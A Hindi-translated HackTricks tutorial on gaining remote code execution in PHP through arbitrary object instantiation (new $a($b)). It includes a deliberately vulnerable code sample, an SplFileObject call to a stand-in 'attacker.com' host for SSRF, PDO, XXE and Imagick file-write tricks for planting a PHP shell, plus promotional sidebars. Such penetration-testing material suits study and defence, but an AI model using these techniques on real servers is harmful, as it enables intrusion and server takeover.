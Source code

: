 # PHP - RCE का दुरुपयोग करते हुए ऑब्जेक्ट निर्माण: new $\_GET\["a"]\($\_GET\["b"])

<details>

<summary><strong> AWS हैकिंग सीखें शून्य से लेकर हीरो तक </strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का पालन करें.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

## परिचय

जब आप एक नया मनमाना ऑब्जेक्ट बना सकते हैं जैसे `new $_GET["a"]($_GET["a"])` तो आप RCE प्राप्त कर सकते हैं, और [**यह लेखन**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) RCE प्राप्त करने के विभिन्न तरीकों को प्रकट करता है।

## कस्टम क्लासेस या ऑटोलोडिंग के माध्यम से RCE

निर्माण `new $a($b)` में, **वेरिएबल `$a` क्लास के नाम के लिए खड़ा है** जिसके लिए ऑब्जेक्ट बनाया जाएगा, और वेरिएबल **`$b` पहले तर्क के लिए खड़ा है** जो ऑब्जेक्ट के कंस्ट्रक्टर को पास किया जाएगा।

यदि `$a` और `$b` GET/POST से आते हैं, तो वे **स्ट्रिंग्स या स्ट्रिंग ऐरेज** हो सकते हैं। यदि वे **JSON** या कहीं और से आते हैं, तो वे **अन्य प्रकार के हो सकते हैं**, जैसे कि ऑब्जेक्ट या बूलियन।

आइए निम्नलिखित उदाहरण पर विचार करें:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

# Additionally, in PHP < 8.0 a constructor might be defined using the name of the class
class App2 {
function App2 ($cmd) {
system($cmd);
}
}

# Vulnerable code
$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
इस कोड में, आप  `$a`  को  `App`  या  `App2`  और  `$b`  को  `uname -a`  सेट कर सकते हैं। इसके बाद, कमांड  `uname -a`  निष्पादित होगा।

जब आपके एप्लिकेशन में ऐसी कोई भी शोषण योग्य क्लासेस नहीं होती हैं, या आपके पास आवश्यक क्लास एक अलग फाइल में होती है जिसे भेद्य कोड द्वारा शामिल नहीं किया जाता है, तब आप ऑटोलोडिंग फंक्शन्स पर नजर डाल सकते हैं।

**ऑटोलोडिंग फंक्शन्स** को `spl_autoload_register` के माध्यम से कॉलबैक्स रजिस्टर करके या `__autoload` को परिभाषित करके सेट किया जाता है। जब किसी अज्ञात क्लास का इंस्टेंस बनाने की कोशिश की जाती है, तो वे कॉल किए जाते हैं।
```php
# An example of an autoloading function
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

# An example of an autoloading function, works only in PHP < 8.0
function __autoload($class_name) {
include $class_name . '.php';
};

# Calling spl_autoload_register with no arguments enables the default autoloading function, which includes lowercase($classname) + .php/.inc from include_path
spl_autoload_register();
```
PHP संस्करण और ऑटोलोडिंग फ़ंक्शन्स में कोड के आधार पर, ऑटोलोडिंग के माध्यम से रिमोट कोड एक्जीक्यूशन प्राप्त करने के कुछ तरीके मौजूद हो सकते हैं।

## बिल्ट-इन क्लासेस के माध्यम से RCE

जब आपके पास कस्टम क्लासेस और ऑटोलोडिंग नहीं होती है, तो आप **केवल बिल्ट-इन PHP क्लासेस पर निर्भर कर सकते हैं**।

PHP की 100 से 200 तक बिल्ट-इन क्लासेस होती हैं। उनकी संख्या PHP संस्करण और इंस्टॉल किए गए एक्सटेंशन्स पर निर्भर करती है। सभी बिल्ट-इन क्लासेस को `get_declared_classes` फ़ंक्शन के माध्यम से सूचीबद्ध किया जा सकता है, कस्टम क्लासेस के साथ:
```php
var_dump(get_declared_classes());
```
निम्नलिखित अनुवाद है:

उपयोगी कंस्ट्रक्टर्स वाली क्लासेस [रिफ्लेक्शन API](https://www.php.net/manual/en/book.reflection.php) के माध्यम से पाई जा सकती हैं।

रिफ्लेक्शन API का उपयोग करके कंस्ट्रक्टर्स और उनके पैरामीटर्स को प्रदर्शित करना: [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)

![](https://swarm.ptsecurity.com/wp-content/uploads/2022/07/2.png)

यदि आप **कई कंस्ट्रक्टर पैरामीटर्स को नियंत्रित कर सकते हैं और उसके बाद मनमाने तरीके से मेथड्स को कॉल कर सकते हैं**, तो रिमोट कोड एक्जीक्यूशन प्राप्त करने के कई तरीके हैं। लेकिन यदि आप **केवल एक पैरामीटर पास कर सकते हैं और बनाई गई ऑब्जेक्ट को कोई कॉल्स नहीं कर सकते**, तो **लगभग कुछ भी नहीं** है।

मुझे `new $a($b)` से कुछ प्राप्त करने के केवल तीन तरीके पता हैं।

### **SSRF + Phar डिसेरियलाइजेशन**

`SplFileObject` क्लास एक ऐसा कंस्ट्रक्टर लागू करती है जो किसी भी स्थानीय या रिमोट URL से कनेक्शन की अनुमति देता है:
```
new SplFileObject('http://attacker.com/');
```
यह SSRF की अनुमति देता है। इसके अतिरिक्त, PHP < 8.0 में SSRF को Phar प्रोटोकॉल के साथ तकनीकों का उपयोग करके deserialization में बदला जा सकता है।

### **PDOs का शोषण करना**

PDO क्लास में एक और दिलचस्प कंस्ट्रक्टर है:
```php
new PDO("sqlite:/tmp/test.txt")
```
`PDO` निर्माता DSN स्ट्रिंग्स को स्वीकार करता है, जो हमें **स्थापित डेटाबेस एक्सटेंशन** का उपयोग करके **किसी भी स्थानीय या दूरस्थ डेटाबेस से जुड़ने** की अनुमति देता है। उदाहरण के लिए, SQLite एक्सटेंशन खाली फाइलें बना सकता है।

### **SoapClient/SimpleXMLElement XXE**

PHP ≤ 5.3.22 और ≤ 5.4.12 में, SoapClient का निर्माता **XXE के लिए संवेदनशील था**। SimpleXMLElement का निर्माता भी XXE के लिए संवेदनशील था, लेकिन इसके लिए libxml2 < 2.9 की आवश्यकता थी।

## RCE via Imagick Extension

आप जिस **प्रोजेक्ट** का शोषण करने की कोशिश कर रहे हैं, उसकी **निर्भरताओं** की जांच करके आप **नई क्लासेस** पा सकते हैं जिनका उपयोग **कमांड्स निष्पादित करने के लिए** नई ऑब्जेक्ट बनाकर किया जा सकता है। इस मामले में, **Imagick** का उपयोग उस उद्देश्य के लिए उपयोगी पाया गया।

### VID पार्सर

VID पार्सर फाइल सिस्टम के अंदर किसी भी मनमाने पथ पर मनमानी सामग्री लिखने की अनुमति देता है, जो एक हमलावर को वेब पेज से सुलभ फोल्डर में PHPshell लिखने और RCE प्राप्त करने की अनुमति देगा।

![](<../../../.gitbook/assets/image (157) (3).png>)

#### VID Parser + FIle Upload

जब PHP में एक फाइल अपलोड की जाती है, तो यह अस्थायी रूप से `/tmp/phpXXXXXX` में संग्रहीत होती है। Imagick का VID पार्सर **msl** प्रोटोकॉल के साथ फाइल पथों में **वाइल्डकार्ड्स को निर्दिष्ट करने** की अनुमति देता है (ताकि अस्थायी अपलोड की गई फाइल को आसानी से पहुंचा जा सके) और **इसे किसी भी मनमाने स्थान पर कॉपी कर सकते हैं**।\
यह फाइल सिस्टम के अंदर मनमानी फाइल लेखन प्राप्त करने का एक और तरीका है:

![](<../../../.gitbook/assets/image (159).png>)

### PHP Crash + Brute Force

[**मूल लेख**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) ने RCE प्राप्त करने का एक और तरीका बताया था जिसमें **विशिष्ट सामग्री के साथ फाइलें अपलोड करना** और सर्वर को उस फाइल को हटाने से पहले **क्रैश करना** और फिर अस्थायी फाइल के नाम को **ब्रूटफोर्स करना** जब तक **Imagick मनमाने PHP कोड को निष्पादित नहीं करता**।

हालांकि, जाहिरा तौर पर **क्रैश ट्रिक** केवल **ImageMagick के पुराने संस्करण में काम करती थी**।

## संदर्भ

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी को HackTricks में विज्ञापित करना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें।
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह।
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) या [**telegram group**](https://t.me/peass) में **शामिल हों** या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का पालन करें**।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
